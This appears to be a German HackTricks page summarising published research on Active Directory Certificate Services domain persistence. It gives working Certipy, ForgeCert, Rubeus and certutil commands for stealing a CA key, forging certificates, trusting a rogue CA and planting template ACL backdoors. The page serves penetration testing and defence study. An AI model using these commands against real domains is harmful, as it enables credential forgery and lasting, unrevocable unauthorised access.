 # AD CS Domain Persistence

{{#include ../../../banners/hacktricks-training.md}}

**Dies ist eine Zusammenfassung der Techniken zur Domain-Persistenz, die in [https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) geteilt werden**. Überprüfen Sie es für weitere Details.

## Fälschen von Zertifikaten mit gestohlenen CA-Zertifikaten - DPERSIST1

Wie können Sie feststellen, dass ein Zertifikat ein CA-Zertifikat ist?

Es kann festgestellt werden, dass ein Zertifikat ein CA-Zertifikat ist, wenn mehrere Bedingungen erfüllt sind:

- Das Zertifikat ist auf dem CA-Server gespeichert, wobei der private Schlüssel durch die DPAPI des Systems oder durch Hardware wie ein TPM/HSM gesichert ist, sofern das Betriebssystem dies unterstützt.
- Sowohl die Felder Issuer als auch Subject des Zertifikats stimmen mit dem Distinguished Name der CA überein.
- Eine "CA Version"-Erweiterung ist ausschließlich in den CA-Zertifikaten vorhanden.
- Das Zertifikat hat keine Felder für die erweiterte Schlüsselverwendung (EKU).

Um den privaten Schlüssel dieses Zertifikats zu extrahieren, ist das Tool `certsrv.msc` auf dem CA-Server die unterstützte Methode über die integrierte GUI. Dennoch unterscheidet sich dieses Zertifikat nicht von anderen, die im System gespeichert sind; daher können Methoden wie die [THEFT2-Technik](certificate-theft.md#user-certificate-theft-via-dpapi-theft2) zur Extraktion angewendet werden.

Das Zertifikat und der private Schlüssel können auch mit Certipy mit dem folgenden Befehl abgerufen werden:
```bash
certipy ca 'corp.local/administrator@ca.corp.local' -hashes :123123.. -backup
```
Nach dem Erwerb des CA-Zertifikats und seines privaten Schlüssels im `.pfx`-Format können Tools wie [ForgeCert](https://github.com/GhostPack/ForgeCert) verwendet werden, um gültige Zertifikate zu generieren:
```bash
# Generating a new certificate with ForgeCert
ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123! --Subject "CN=User" --SubjectAltName localadmin@theshire.local --NewCertPath localadmin.pfx --NewCertPassword Password123!

# Generating a new certificate with certipy
certipy forge -ca-pfx CORP-DC-CA.pfx -upn administrator@corp.local -subject 'CN=Administrator,CN=Users,DC=CORP,DC=LOCAL'

# Authenticating using the new certificate with Rubeus
Rubeus.exe asktgt /user:localdomain /certificate:C:\ForgeCert\localadmin.pfx /password:Password123!

# Authenticating using the new certificate with certipy
certipy auth -pfx administrator_forged.pfx -dc-ip 172.16.126.128
```
> [!WARNING]
> Der Benutzer, der für die Zertifikatsfälschung ins Visier genommen wird, muss aktiv sein und in der Lage sein, sich im Active Directory zu authentifizieren, damit der Prozess erfolgreich ist. Das Fälschen eines Zertifikats für spezielle Konten wie krbtgt ist ineffektiv.

Dieses gefälschte Zertifikat wird **gültig** sein bis zum angegebenen Enddatum und **solange das Root-CA-Zertifikat gültig ist** (normalerweise von 5 bis **10+ Jahren**). Es ist auch für **Maschinen** gültig, sodass ein Angreifer in Kombination mit **S4U2Self** **Persistenz auf jeder Domänenmaschine** aufrechterhalten kann, solange das CA-Zertifikat gültig ist.\
Darüber hinaus **können die mit dieser Methode generierten Zertifikate** **nicht widerrufen** werden, da die CA nicht über sie informiert ist.

## Vertrauen in bösartige CA-Zertifikate - DPERSIST2

Das `NTAuthCertificates`-Objekt ist definiert, um ein oder mehrere **CA-Zertifikate** innerhalb seines `cacertificate`-Attributs zu enthalten, die vom Active Directory (AD) verwendet werden. Der Verifizierungsprozess durch den **Domänencontroller** umfasst die Überprüfung des `NTAuthCertificates`-Objekts auf einen Eintrag, der mit der **CA** übereinstimmt, die im Ausstellerfeld des authentifizierenden **Zertifikats** angegeben ist. Die Authentifizierung erfolgt, wenn eine Übereinstimmung gefunden wird.

Ein selbstsigniertes CA-Zertifikat kann von einem Angreifer zum `NTAuthCertificates`-Objekt hinzugefügt werden, vorausgesetzt, er hat die Kontrolle über dieses AD-Objekt. Normalerweise haben nur Mitglieder der **Enterprise Admin**-Gruppe sowie **Domain Admins** oder **Administratoren** im **Wurzel-Domain des Forests** die Berechtigung, dieses Objekt zu ändern. Sie können das `NTAuthCertificates`-Objekt mit `certutil.exe` über den Befehl `certutil.exe -dspublish -f C:\Temp\CERT.crt NTAuthCA126` bearbeiten oder das [**PKI Health Tool**](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/import-third-party-ca-to-enterprise-ntauth-store#method-1---import-a-certificate-by-using-the-pki-health-tool) verwenden.

Diese Fähigkeit ist besonders relevant, wenn sie in Verbindung mit einer zuvor beschriebenen Methode verwendet wird, die ForgeCert zur dynamischen Generierung von Zertifikaten einsetzt.

## Bösartige Fehlkonfiguration - DPERSIST3

Möglichkeiten zur **Persistenz** durch **Änderungen des Sicherheitsdeskriptors von AD CS**-Komponenten sind reichlich vorhanden. Änderungen, die im Abschnitt "[Domain Escalation](domain-escalation.md)" beschrieben sind, können von einem Angreifer mit erhöhtem Zugriff böswillig implementiert werden. Dazu gehört die Hinzufügung von "Kontrollrechten" (z. B. WriteOwner/WriteDACL/etc.) zu sensiblen Komponenten wie:

- Das **AD-Computerobjekt des CA-Servers**
- Der **RPC/DCOM-Server des CA-Servers**
- Jedes **Nachkommen-AD-Objekt oder Container** in **`CN=Public Key Services,CN=Services,CN=Configuration,DC=<DOMAIN>,DC=<COM>`** (zum Beispiel der Container für Zertifikatvorlagen, der Container für Zertifizierungsstellen, das NTAuthCertificates-Objekt usw.)
- **AD-Gruppen, die standardmäßig oder durch die Organisation Rechte zur Kontrolle von AD CS delegiert haben** (wie die integrierte Gruppe der Zertifikatsverleger und deren Mitglieder)

Ein Beispiel für eine böswillige Implementierung wäre ein Angreifer, der **erhöhte Berechtigungen** in der Domäne hat und die **`WriteOwner`**-Berechtigung zur Standard-**`User`**-Zertifikatvorlage hinzufügt, wobei der Angreifer der Hauptverantwortliche für das Recht ist. Um dies auszunutzen, würde der Angreifer zunächst das Eigentum an der **`User`**-Vorlage auf sich selbst ändern. Danach würde das **`mspki-certificate-name-flag`** auf **1** gesetzt, um **`ENROLLEE_SUPPLIES_SUBJECT`** zu aktivieren, was es einem Benutzer ermöglicht, einen Subject Alternative Name in der Anfrage bereitzustellen. Anschließend könnte der Angreifer sich mit der **Vorlage** anmelden, einen **Domänenadministrator**-Namen als alternativen Namen wählen und das erworbene Zertifikat zur Authentifizierung als DA verwenden.

{{#include ../../../banners/hacktricks-training.md}}
